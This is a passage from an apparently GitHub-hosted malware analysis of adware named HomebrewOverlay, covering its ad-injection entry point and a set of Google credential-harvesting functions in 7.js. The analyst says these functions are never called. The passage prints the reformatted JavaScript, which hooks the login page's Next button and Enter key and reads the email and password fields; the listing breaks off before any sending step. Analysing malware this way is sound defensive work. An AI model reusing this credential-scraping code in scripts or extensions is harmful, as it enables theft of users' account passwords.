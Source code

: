### Step 8

*7.js* is the final body of this adware. Injection of ads commences through a function called `Ruko66()`.

[***Scripts/7.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js): [Ruko66()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L1269)

## :volcano: Points of Interest

There are some interesting functions in *7.js* as follows:

### Harvesting Google account passwords

A set of functions within the adware code attempts to exfiltrate Google account usernames and passwords. :information_source: **These functions are never called**.

Google Login HTML structure (as of Oct 2019): [Email](https://imgur.com/CQeY6MI), [Password](https://imgur.com/pgGVQDK)

[***Scripts/7.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js): [hkNxtBnClk()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L702), [googCacheFunc()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L710), [hkScndFctAuth()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L715), [googCacheFunc2()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/7.js#L723)

```javascript
// RAIN: Reformatted for clarity
function hkNxtBnClk() {
  extgaLog("hkNxtBnClk");

  // RAIN: passwordNext is the ID of the Next button on Google's login page
  var a = document.getElementById("passwordNext");

  if (a) {
    // RAIN: Adds listener to the click action
    a.addEventListener("click", googCacheFunc, !1);

    // RAIN: Adds listener for Enter key press (keyCode 13)
    document.documentElement.addEventListener("keypress", function(a) {
          13 === a.keyCode && googCacheFunc()
      }, !1);
  } else {
    setTimeout(hkNxtBnClk, 1E3);  // RAIN: Every second
  }
}

// RAIN: Reformatted for clarity
function googCacheFunc() {
  var data = "",
      // RAIN: profileIdentifier is the ID of the element with the user's email address
      // on Google's login page
      email = document.getElementById("profileIdentifier").innerHTML,
      password = "",
      elements = document.getElementsByTagName("input");

  // RAIN: For each INPUT element, if type is password, store its value
  for (var i = 0; i < elements.length; i++) {
    if ("password" == elements[i].getAttribute("type")) {
      password = elements[i].value;
    }
  }

  if (0 != password.length) {
```